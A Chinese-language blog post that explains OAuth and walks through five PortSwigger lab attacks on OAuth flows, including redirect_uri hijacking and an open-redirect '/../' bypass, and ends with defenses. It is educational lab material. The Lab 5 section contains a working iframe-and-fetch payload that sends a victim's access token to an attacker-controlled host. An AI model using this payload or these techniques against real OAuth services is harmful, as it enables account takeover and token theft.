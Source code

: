 ```yaml
---
layout:     post
title:      "OAuth安全学习"
subtitle:   ""
date:       2021-01-12 10:40:00
author:     "kuron3k0"
header-img: "img/home-bg-o.jpg"
tags:
    - OAuth
    - Web
---
```


OAuth是如今一种比较流行的授权机制，虽然已经出现很久了，但是一直没有详细了解过攻击手法，今天就来学习一下。

## OAuth简介
一个简单的图解，侵删
![](/img/in-post/oauth-security/oauth.jpg)

[阮一峰大佬的博客](http://www.ruanyifeng.com/blog/2019/04/oauth_design.html)说的挺清晰的了，这里就不细讲了，就用授权码的方式举一个OAuth实际应用的例子。

下面是一个用到GitHub OAuth的地方：`https://sec.today`
![](/img/in-post/oauth-security/1.png)

登陆成功，省去了重新注册的时间
![](/img/in-post/oauth-security/2.png)

看一下相关请求是什么，点击`用GitHub登录`后，从浏览器发起了第一个请求：`https://sec.today/oauth/login/github/`

重定向到GitHub进行登录：`https://github.com/login/oauth/authorize?client_id=dad4bf1a56b861bac810&redirect_uri=https%3A%2F%2Fsec.today%2Foauth%2Fcomplete%2Fgithub%2F%3Fredirect_state%3DH2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&response_type=code`

在GitHub登录完成后，返回授权码`code`，附在上一步填的`redirect_uri`后面：`https://sec.today/oauth/complete/github/?redirect_state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&code=1c02c1234d182db57bd5&state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw`

最后，`sec.today`带着授权码拿到我们`GitHub`账号的信息，我们就用`GitHub`的身份完成了在`sec.today`上的登陆



## PortSwigger靶场
### 【LAB 1】Authentication bypass via OAuth implicit flow

题目要求：在`implicit`形式的OAuth中进行认证绕过

`implicit`方式的所有操作都是在客户端完成，最后认证完成得到的`access_token`也是会返回到客户端，所以只需要把`access_token`绑定为任意需要操作的用户即可

点击登录
![](/img/in-post/oauth-security/3.png)

返回`access_token`
![](/img/in-post/oauth-security/4.png)

把`access_token`和任意用户绑定
![](/img/in-post/oauth-security/5.png)


### 【LAB 2】Forced OAuth profile linking

题目要求：获取`admin`权限（`admin`已登录第三方应用，且会访问我们构造的任何链接）

所以很明显是要`CSRF`了，根据OAuth的流程可以知道，我们要做的就是用我们的OAuth信息去绑定`admin`的第三方应用的账号

首先先用我们自己的账号进行OAuth登录，可以看到返回了一个`code`，但这个时候要把这个请求拦截下来，构造完`CSRF Payload`后drop掉，然后让`admin`去访问
![](/img/in-post/oauth-security/6.png)

当`admin`访问后，完成绑定。然后我们再以自己的账号做OAuth登录，即可得到`admin`权限
![](/img/in-post/oauth-security/7.png)


### 【LAB 3】OAuth account hijacking via redirect_uri

题目要求：获取`admin`权限（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

构造`CSRF Payload`，`redirect_uri`设置为我们可控的地址
![](/img/in-post/oauth-security/8.png)

得到`admin`的`code`，直接登录
![](/img/in-post/oauth-security/9.png)

`admin`权限
![](/img/in-post/oauth-security/10.png)

### 【LAB 4】Stealing OAuth access tokens via an open redirect

题目要求：获取`admin`的`apikey`（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

这题跟上一题差不多，就是`redirect_uri`做了一些校验，然后OAuth用`implicit`模式了

`redirect_uri`不能任意指定了，试了几种方式似乎都不行，然后发现`/post/next`有重定向漏洞，且url路径检查可用`/../`绕过，这个问题解决；然后系统的`access_token`是放在url的`fragment`中的，所以我们的payload需要把它提取出来，最终结果如下：
![](/img/in-post/oauth-security/11.png)

`admin`访问后得到`access_token`
![](/img/in-post/oauth-security/12.png)

用`access_token`拿到`admin`的`apikey`
![](/img/in-post/oauth-security/13.png)

### 【LAB 5】Stealing OAuth access tokens via a proxy page

题目要求：获取`admin`的`apikey`（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

url校验沿用了上一题的方式，然后重定向漏洞没有了。注意到评论的页面`/post/comment/comment-form`，有一个向`父页面`发送自己url的操作，所以如果我们可以让`admin`访问OAuth登录的链接，就会把`access_token`发到评论页面，然后评论页面就会把`token`传到我们的恶意父页面
![](/img/in-post/oauth-security/14.png)

构造payload
```html
<iframe src="https://ac431f851f15ecdb807b43d102b500f3.web-security-academy.net/auth?client_id=j77c7udyz47s8jpf2mwu7&redirect_uri=https://acc41f8d1ff7ecd9800b438f009000bf.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
<script>
    window.addEventListener("message",function(e){
        var token=e.data.data;
        fetch("https://aca51ffb1f26ec2680814365018400cb.web-security-academy.net/"+btoa(token));
    },false);
</script>
```
接收到数据
![](/img/in-post/oauth-security/15.png)

解码得到token
![](/img/in-post/oauth-security/16.png)

## 防御
OAuth服务提供者需要让第三方应用提供url的白名单、用`state`等参数防止类CSRF攻击、确认最后请求的`scope`是跟最开始的请求是一致的

第三方应用也要用`state`防止CSRF、注意`code`通过`Referer`泄漏，此外移动端、桌面应用可能会包含`client_secret`，所以需要`PKCE`对`code`进行保护

[ietf的草稿](https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html)中还提到了一些其他的攻击场景，像`PKCE
 downgrade attack`、`307 redirection`等等，有合适的机会再研究一下

## 参考
- [https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html](https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html)
- [https://portswigger.net/web-security/oauth](https://portswigger.net/web-security/oauth)
- [http://www.ruanyifeng.com/blog/2019/04/oauth_design.html](http://www.ruanyifeng.com/blog/2019/04/oauth_design.html)
